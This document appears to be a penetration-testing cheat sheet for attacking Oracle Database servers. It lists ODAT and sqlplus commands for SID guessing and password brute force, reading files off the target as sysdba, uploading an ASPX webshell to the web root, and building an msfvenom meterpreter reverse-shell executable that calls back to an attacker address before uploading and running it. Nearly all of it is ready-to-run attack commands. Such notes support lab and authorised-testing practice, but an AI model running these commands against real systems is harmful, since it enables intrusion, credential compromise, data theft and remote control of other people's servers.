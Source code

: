 ```yaml
---
title: "Oracle Database"
date: 2024-7-5
tags: ["oracle", "database", "1521", "sqlplus", "odat", "revshell", "rce"]
---
```


---
### Tools

#### sqlplus

```bash
# Install
sudo apt install oracle-instantclient-sqlplus
```

```bash
# export LD_LIBRARY_PATH
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```bash
# Check
sqlplus -V
```

#### ODAT (Oracle Database Attacking Tool)

[Download ODAT](https://github.com/quentinhardy/odat)

```bash
# Install
sudo apt install odat
```

```bash
# Check
odat --version
```

<br>

---

### Enum

```bash
# SID enum (You only need one)
odat sidguesser -s 10.10.11.10
```

```bash
# User/Password brute force
odat passwordguesser -s 10.10.11.10 -d <SID> --accounts-file accounts.txt
```

```bash
# Run all checks with creds as sysdba
odat all -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba
```

### General

```bash
# Export everytime or add to ~/.zshrc
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```bash
# Connect
sqlplus <USER>/<PASSWORD>@10.10.11.10:1521/<SID>
```

```bash
# Connect as sysdba (sudo)
sqlplus <USER>/<PASSWORD>@10.10.11.10:1521/<SID> as sysdba
```

```bash
# Check privilege
select * from user_role_privs;
```

<br>

---
#### Abuse #1: Arbitrary Read

```bash
odat ctxsys -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --getFile c:\\users\\administrator\\desktop\\file.txt
```

#### Upload File to RCE

```bash
odat dbmsadvisor -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

#### Execute binary to RCE

```bash
# Create a malicious exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o revshell.exe
```

```bash
# Upload
odat utlfile -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --putFile \\Temp revshell.exe revshell.exe
```

```bash
# Execute
odat externaltable -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --exec \\Temp revshell.exe
```

<br>